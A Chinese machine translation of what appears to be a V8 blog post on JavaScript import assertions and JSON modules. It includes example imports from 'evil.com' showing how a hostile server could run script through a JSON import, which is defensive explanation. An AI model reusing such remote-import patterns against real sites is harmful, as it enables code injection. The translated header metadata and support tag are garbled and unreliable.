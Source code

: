 ***

标题： “导入断言”
作者： '丹·克拉克 （[@dandclark1](https://twitter.com/dandclark1)），导入断言的断言的断言
化身：

*   “丹-克拉克”
    日期： 2021-06-15
    标签：
*   ECMAScript
    描述：“导入断言允许模块导入语句在模块说明符旁边包含其他信息”
    推特： ''

***

新[导入断言](https://github.com/tc39/proposal-import-assertions)功能允许模块导入语句在模块说明符旁边包含其他信息。该功能的初始用途是启用 JSON 文档作为导入[JSON 模块](https://github.com/tc39/proposal-json-modules):

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 背景：JSON 模块和 MIME 类型

一个自然而然的问题是，为什么JSON模块不能像这样简单地导入：

```javascript
import json from './foo.json';
```

Web 平台在执行模块资源之前检查其有效性，从理论上讲，此 MIME 类型也可用于确定是将资源视为 JSON 还是 JavaScript 模块。

但是，有一个[安全问题](https://github.com/w3c/webcomponents/issues/839)仅依靠MIME类型。

模块可以跨源导入，开发人员可以从第三方源导入 JSON 模块。只要正确清理了JSON，他们可能会认为这是基本的，即使来自不受信任的第三方，因为导入JSON不会执行脚本。

但是，第三方脚本实际上可以在这种情况下执行，因为第三方服务器可能会意外地使用 JavaScript MIME 类型和恶意 JavaScript 有效负载进行回复，从而在导入程序的域中运行代码。

```javascript
// Executes JS if evil.com responds with a
// JavaScript MIME type (e.g. `text/javascript`)!
import data from 'https://evil.com/data.json';
```

文件扩展名不能用于进行模块类型确定，因为它们[不是 Web 上内容类型的可靠指标](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md).因此，我们使用导入断言来指示预期的模块类型，并防止这种权限升级陷阱。

当开发人员想要导入 JSON 模块时，他们必须使用导入断言来指定它应该是 JSON。如果从网络接收的 MIME 类型与预期类型不匹配，则导入将失败：

```javascript
// Fails if evil.com responds with a non-JSON MIME type.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 动态`import()`

导入断言也可以传递给[动态`import()`](https://v8.dev/features/dynamic-import#dynamic)使用新的第二个参数：

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSON 内容是模块的默认导出，因此通过`default`从 返回的对象上的属性`import()`.

## 结论

目前，导入断言的唯一指定用途是指定模块类型。但是，该功能被设计为允许任意键/值断言对，因此，如果以其他方式限制模块导入变得有用，将来可能会添加其他用途。

同时，具有新的导入断言语法的 JSON 模块在 Chromium 91 中默认可用。[CSS 模块脚本](https://chromestatus.com/feature/5948572598009856)也即将推出，使用相同的模块类型断言语法。

## 导入断言支持 { #support }

<功能支持 chrome=“91 https://chromestatus.com/feature/5765269513306112” firefox=“no” safari=“no” nodejs=“no” babel=“yes https://github.com/babel/babel/pull/12139”></feature-support>
